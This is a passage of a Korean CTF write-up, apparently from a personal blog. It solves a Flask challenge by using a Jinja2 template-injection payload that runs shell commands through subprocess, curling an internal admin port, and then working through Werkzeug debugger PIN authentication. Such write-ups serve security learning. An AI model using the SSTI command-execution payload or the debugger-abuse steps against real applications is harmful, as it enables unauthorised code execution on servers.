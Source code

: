 ```Dockerfile
COPY flag /
RUN chmod 700 /flag
ADD run.sh /run.sh
RUN useradd user
CMD ["/run.sh"]

EXPOSE 5000
```

**Dockerfile**을 확인해보면 현재 해당 Docker는 5000번 포트로 실행되고 있고 설치된 모듈로는 `flask, curl` 이 두 가지 이다.

처음에는 SSH 터널링과 같이 포트를 직접 연결할 생각을 하였지만 모듈로만 풀이해야한다면 `curl` 하나로 풀이를 진행해야한다.

현재 RCE가 가능하기에 내부에서 작동하는 `8000` 포트의 Admin과 통신이 되는지 확인해보도록 한다.

```
{{ ''.__class__.__mro__[1].__subclasses__()[398]('curl 127.0.0.1:8000',shell=True,stdout=-1).communicate() }}
```

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/d51ccfc5-3d6f-4570-828a-c2e15b2d02c3" width = 850>
</p>

8000 포트를 사용하고 있는 Admin 접근이 가능한 것을 확인하였고 이후 `/keygen/1`을 통해 Debug 모드가 되는지 본다.

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/f05a1f04-fa49-4671-bc6f-0295aff1714a" width = 850>
</p>

내용을 확인해보면 예상대로 `ZeroDivisionError`로 인한 Debug mode가 정상적으로 실행되는 것을 알 수 있다.

이후 Debug 모드에선 **Werkzeug Pincode exploit**이 가능하지만 모든 내용이 byte를 통해서 출력되기에 로컬에서 테스트를 하며 진행하겠습니다.

### Local Pin Code Exploit

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/e24ebd4e-5e30-4aab-90ae-cceb005668b0" width = 850>
</p>

* Debug Console를 사용하기 위해서는 위처럼 Pin code 인증 절차가 필요하게 되는데 이 때 확인되는 로그는 아래와 같다.

```log
127.0.0.1 - - [08/Dec/2023 14:36:05] "GET /keygen/a?__debugger__=yes&cmd=printpin&s=AgVjhE4NHyHMvgGuD1Yz HTTP/1.1
```

* 여기서 알 수 있는 것은 `cmd` 파리미터를 통해 어떤 행동을 할 지 정해지는 것과, `s`라는 파라미터는 `Flask Secret Key`임을 알 수 있다. 해당 `Secret Key`는 **F12** 개발자 도구를 통해서도 확인이 가능하다.

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/6d401e5e-2af7-4871-9249-ec4fc01bb03f" width = 850>
</p>

* 해당 화면은 인증이 완료되고 로그에서 확인되는 내용을 URL로 직접 연결하면 위와 같이 `"auth" : true`로 Pin code 인증이 완료되었다는 것을 알 수 있다.
